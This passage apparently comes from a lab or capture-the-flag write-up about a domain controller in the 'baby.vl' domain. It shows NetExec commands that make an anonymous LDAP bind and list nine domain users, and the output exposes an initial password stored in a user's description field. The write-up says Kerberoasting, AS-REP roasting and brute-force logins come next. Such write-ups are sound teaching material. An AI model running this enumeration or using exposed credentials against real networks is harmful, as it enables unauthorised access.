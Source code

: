 - **RDP (3389)** → Direct login (with creds).
    

This setup strongly suggests that the attack path will involve **enumerating AD users** via LDAP/SMB/Kerberos, then attempting attacks like **AS-REP roasting / Kerberoasting / brute-forcing logins**.

## Step 2: LDAP Enumeration

Next, we try an **anonymous LDAP bind** using `nxc` (NetExec).

```bash
nxc ldap 10.10.76.243  -u '' -p ''
```

Result:

```output
DAP        10.10.76.243    389    BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
LDAP        10.10.76.243    389    BABYDC           [+] baby.vl\: 
```

This confirms that **anonymous LDAP access is allowed** on the domain controller.

We then enumerate domain users:

```bash
nxc ldap 10.10.76.243 -u '' -p '' --users --kdc baby.vl
```

**Result:**

- 9 domain users were discovered.

```output
DAP        10.10.76.243    389    BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
LDAP        10.10.76.243    389    BABYDC           [+] baby.vl\: 
LDAP        10.10.76.243    389    BABYDC           [*] Enumerated 9 domain users: baby.vl
LDAP        10.10.76.243    389    BABYDC           -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        10.10.76.243    389    BABYDC           Guest                         <never>             0        Built-in account for guest access to the computer/domain    
LDAP        10.10.76.243    389    BABYDC           Jacqueline.Barnett            2021-11-21 10:11:03 0                                                                    
LDAP        10.10.76.243    389    BABYDC           Ashley.Webb                   2021-11-21 10:11:03 0                                                                    
LDAP        10.10.76.243    389    BABYDC           Hugh.George                   2021-11-21 10:11:03 0                                                                    
LDAP        10.10.76.243    389    BABYDC           Leonard.Dyer                  2021-11-21 10:11:03 0                                                                    
LDAP        10.10.76.243    389    BABYDC           Connor.Wilkinson              2021-11-21 10:11:08 0                                                                    
LDAP        10.10.76.243    389    BABYDC           Joseph.Hughes                 2021-11-21 10:11:08 0                                                                    
LDAP        10.10.76.243    389    BABYDC           Kerry.Wilson                  2021-11-21 10:11:08 0                                                                    
LDAP        10.10.76.243    389    BABYDC           Teresa.Bell                   2021-11-21 10:14:37 0        Set initial password to BabyStart123! 

```
